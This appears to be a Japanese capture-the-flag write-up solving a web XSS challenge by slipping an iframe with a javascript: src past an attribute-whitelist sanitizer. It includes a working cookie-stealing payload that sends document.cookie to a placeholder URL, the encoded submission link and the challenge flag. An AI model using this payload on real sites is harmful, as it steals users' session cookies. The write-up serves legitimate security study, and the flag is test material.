 # static-static-hosting

```txt
Seeing that my last website was a success, I made a version where instead of storing text, you can make your own custom websites! If you make something cool, send it to me [here](url)

Site: (url)
```

## 概要

![static-static](./img/static-static.png)

[static-pastebin](../static-pastebin)と同じような感じ。
サニタイジングが変わってる。

```js
(snip)
for (let i = 0; i < attributes.length; i++) {
     // Let people add images and styles
    if (!['src', 'width', 'height', 'alt', 'class'].includes(attributes[i])){
        element.removeAttribute(attributes[i]);
    }
}
const children = element.children;
for (let i = 0; i < children.length; i++) {
    if (children[i].nodeName === 'SCRIPT') {
        element.removeChild(children[i]);
        i --;
    } else {
        sanitize(children[i]);
    }
}
(snip)
```

`src`,`width`,`height`,`alt`,`class`が使えて、`script`タグは使えないっぽい。  

`<img src="javascript:alert();">`とか試したけど上手くいかなかった  
(やり方間違えてるのかな)

## 解

iframeのsrc使ったらできた。

```html
<iframe src='javascript:document.location="[url]?" + document.cookie'></iframe>
```

を入力するとリダイレクトするので、
以下をクローラーに提出する。

```txt
https://static-static-hosting.2020.redpwnc.tf/site/#PGlmcmFtZSBzcmM9J2phdmFzY3JpcHQ6ZG9jdW1lbnQubG9jYXRpb249Ilt1cmxdPyIgKyBkb2N1bWVudC5jb29raWUnPjwvaWZyYW1lPgo=
```

クローラーが`[url]?flag=flag%7Bwh0_n33d5_d0mpur1fy%7D`にアクセスしてくる。

```txt
flag{wh0_n33d5_d0mpur1fy}
```
